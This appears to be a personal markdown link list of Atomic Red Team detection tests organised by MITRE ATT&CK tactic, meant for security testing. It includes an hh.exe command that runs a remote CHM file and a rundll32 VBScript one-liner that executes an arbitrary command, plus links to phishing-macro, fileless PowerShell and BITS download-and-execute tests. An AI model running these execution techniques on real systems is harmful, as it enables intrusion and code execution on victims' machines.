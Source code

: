 # Mitre ATT&CK

Atomic red team

Small and highly portable detection tests based on MITRE's ATT&CK.

## Initial Access

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1193/bin/PhishingAttachment.xlsm


## Execution

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1223/T1223.md

https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm
hh.exe #{remote_chm_file}



https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1086/T1086.md#atomic-test-12---powershell-fileless-script-execution
Atomic Test #12 - PowerShell Fileless Script Execution


https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1085/T1085.md#atomic-test-2---rundll32-execute-vbscript-command

Atomic Test #2 - Rundll32 execute VBscript command
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053/T1053.md#atomic-test-4---powershell-cmdlet-scheduled-task

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1064/T1064.md

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1035/T1035.md#atomic-test-1---execute-a-command-as-a-service

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1127/T1127.md

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1047/T1047.md

## Persistence
https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md#atomic-test-2---download--execute-via-powershell-bits

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1136/T1136.md#atomic-test-4---create-a-new-user-in-powershell

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1050/T1050.md

https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1050/T1050.md


## privilege-escalation
